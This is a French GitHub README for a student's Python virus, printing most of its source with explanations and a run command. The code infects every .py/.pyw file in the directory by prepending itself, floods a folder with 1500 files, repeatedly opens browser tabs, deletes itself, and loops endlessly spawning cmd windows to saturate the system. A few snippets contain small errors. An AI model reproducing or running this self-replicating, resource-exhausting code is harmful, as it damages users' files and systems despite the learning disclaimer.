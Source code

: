 # Virus de 0xM@rt

[![forthebadge](https://forthebadge.com/images/badges/made-with-python.svg)](https://forthebadge.com)

Dans le cadre de ma formation j'ai du développer un virus

le but du virus et de créer de nombreux fichier pour saturer le système


## Pour commencer

Faite attention ce logiciel a été créé dans le but d'apprentissage il ne faut pas l'utiliser a des fin malvaillante  


### Pré-requis

Il faut executer le fichier virus.py et avoir un fichier test.py qui sera infecté par le code du virus


### Installation

* _Pour_ _Windows_ :

  Pour installer python il faut se rendre sur https://www.python.org/downloads/

* _Pour_ _Ubuntu_ :

  Pour installer python il faut utiliser la commande sudo apt-get install python

## Démarrage

Pour lancer le logiciel il faut juste taper *Python3 virus.py* sur la machine a infecter


## Explication du code 


* _Pour_ _virus.py_ :

--------------------------Les imports---------------------

Sys fournit un accès à certaines variables utilisées et maintenues par l'interpréteur

glob recherche tous les chemins correspondant à un motif particulier selon les règles utilisées par le shell Unix

itertools fonctions créant des itérateurs pour boucler efficacement

subeprocess permet de lancer de nouveaux processus

time permet fournir différentes fonctions liées au temps 

webbrowser permet d'intéragir avec les navigateurs web 


----------------------Traitement ------------------------

Tout d'abords nous avons des commentaires # VIRUS SAYS HI! et # VIRUS SAYS BYE! qui sont utile pour délimité les parties du code pour la réplication

```python
#Le virus charge son propre code
virus_code = []
with open(sys.argv[0], 'r') as f:
    lines = f.readlines()

EstInfecte = False
for line in lines:
    if line == "# VIRUS SAYS HI!":
        EstInfecte = True
    if not EstInfecte:
        virus_code.append(line)
    if line == "# VIRUS SAYS BYE!\n":
        break
 ```
 
 
Le code suivant permet d'injecter du code dans les fichier en ;py et .pyw
 
```python
python_files = glob.glob('*.py') + glob.glob('*.pyw')

for file in python_files:
    with open(file, 'r') as f:
        file_code = f.readlines()
    
    infected = False
    
    # ne pas injecter le code s'il y'a le VIRUS SAYS HI
    for line in file_code:
        if line == "# VIRUS SAYS HI!\n":
            infected = True
            break
    
    # injecter le code s'il n'y'a pas le VIRUS SAYS HI
    if not infected:
        final_code = []
        final_code.extend(virus_code)
        final_code.extend('\n')
        final_code.extend(file_code)
        
        with open(file, 'w') as f:
            f.writelines(final_code)
            
print ("Virus en cours d'execution")
```
--------------------Ajout personnel dans le virus---------------------


Création de plusieurs fichier txt et affichage de dans un navigateur de photo de chat

```python
path = str(os.path.join(r"C:\Users\User\Documents\Virus"))
print(f)


#------------------ création de plein de fichiers texte dans un dossier et affichage de plein de photo de chat sur le navigateur------------------------------
for t in range(1500):
    file = open(path +"\\test_%d.txt" %t , "w")
    file.write("let's go !!!%d"%t)
    file.close()
    
    webbrowser.open_new("https://genrandom.com/cats/")
    [''.join(x for x in t) for t in itertools.product("abcdefghijklmnobqrstuvwxyz",repeat=1)]
    
    
```


Le virus ce supprime tout seul après execution
```python
#-----------------------------------auto supression du virus---------------------------
file_path = r"C:\Users\User\Documents\Virus\virus.py"

if os.path.isfile(file_path):
os.remove(file_path)
print("fichier supprimé")
```

Le virus lance des cmd en boucle 

```python
#--------------------------------Boucle infini qui lance des CMD------------------------------
while True:
    os.system('start cmd')

# VIRUS SAYS BYE!\n

time.sleep(10)
```



## Auteurs
Listez le(s) auteur(s) du projet ici !
* **0xM@rt** _alias_ [@0xM@rt](https://github.com/0xMart)



